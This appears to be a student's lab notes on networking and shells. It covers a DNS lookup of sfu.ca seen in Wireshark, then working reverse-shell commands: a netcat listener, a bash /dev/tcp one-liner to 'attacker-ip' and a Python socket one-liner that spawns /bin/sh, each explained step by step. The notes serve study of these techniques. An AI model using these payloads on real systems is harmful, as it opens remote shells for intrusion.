 ```yaml
---
title: shell stuff
description: assembly
---
```


# shell stuff 

### some networking stuff I am working on

Running dig on sfu.ca shows us 2 dns packets, one query and one response.
A dns request has just been performed. This allows us to retrieve IP addresses associated with domain names.
The protocol is DNS and over UDP as this is faster.
The authoritative server for sfu.ca responds to the local resolver which we then see with dig.

![alt text](/images/shell/image.png)

![alt text](/images/shell/image2.png)

### getting a reverse shell

The command to run first is nc -nlvp 9090. This is because you want to set up the listener first for the shell to connect back to the attacker.


### more on reverse shells

![alt text](/images/shell/image3.png)

nc -lvnp 9090 will make a netcat listener on port 9090 and providing verbose output and avoid dns to resolve hostnames to improve speed.

The /bin/bash -i >& /dev/tcp/attacker-ip/9090 0<&1 2>&1
This command will open a reverse shell on the victim machine which will connect to the attacker machine on port 9090. 

/bin/bash -i will start a bash instance in interactive mode.
Then the output of the shell is redirected to a file that allows direct communication with a remote host through TCP. Then standard output is redirected to standard input, allowing attacker to send input and also standard error is redirected to standard out so both are sent to attacker.


### yet another reverse shell :)

![alt text](/images/shell/image4.png)

### inspecting messages in wireshark

They are not encrypted as I can see the information sent in clear text.

![alt text](/images/shell/image5.png)

### other ways to run reverse shells

Another method is to use a python script.

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IPADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

![alt text](/images/shell/image6.png)

